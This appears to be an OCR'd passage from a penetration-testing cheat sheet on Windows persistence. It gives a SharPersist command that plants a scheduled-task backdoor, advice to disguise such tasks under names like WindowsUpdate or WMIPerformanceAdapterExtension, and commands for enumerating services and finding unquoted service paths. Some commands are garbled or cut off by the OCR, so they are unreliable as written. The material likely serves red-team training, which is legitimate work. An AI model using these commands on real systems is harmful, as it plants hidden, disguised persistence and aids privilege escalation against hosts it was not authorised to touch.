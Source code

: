 Check if you have write access to "C:\Windows\system32\Tasks"

> / / / To Finish

```bash
schtasks /query /fo LIST /v
```

Here are interesting schedule time for persistence:

- ONSTART: Specifies that the task runs every time the system starts. You can specify a start date, or run the task the next time the system starts.
- ONLOGON: Specifies that the task runs whenever a user (any user) logs on. You can specify a date, or run the task the next time the user logs on.
- ONIDLE: Specifies that the task runs whenever the system is idle for a specified period of time. You can specify a date, or run the task the next time the system is idle.

[SharPersist](https://github.com/fireeye/SharPersist) can be used to try to perform a Scheduled Task Backdoor

When creating a new scheduled task, try to masquerade it with something like:

- WindowsUpdate
- WMIPerformanceAdapterExtension
- ..

```bash
# Scheduled Task Backdoor
SharPersist -t schtaskbackdoor -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "WMIPerformanceAdapterExtension" -m add
```

For more information about those techniques refer to:

- [T1036.004 - Masquerading: Masquerade Task or Service](https://attack.mitre.org/techniques/T1036/004/)
- [T1053.005 - Scheduled Task/Job: Scheduled Task](https://attack.mitre.org/techniques/T1053/005/)

### Service Enumeration

```bash
# Displays all service and their name
wmic service get pathname,startname
# Displays all service that are running
Get-Service | where object {$ .status -eq ''Running''}
# Search for "Unquoted Service Path" vulnerable services
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v 

# Automated script to list all services path
sc query state=all | findstr "SERVICE_NAME:" >> Servicenames.txt
FOR /F %i in (Servicenames.txt) DO echo %i
type Servicenames.txt
FOR /F "tokens=2 delims= " %i in (Servicenames.txt) DO @echo %i >> services.txt
FOR /F %i in (services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> path.txt
```
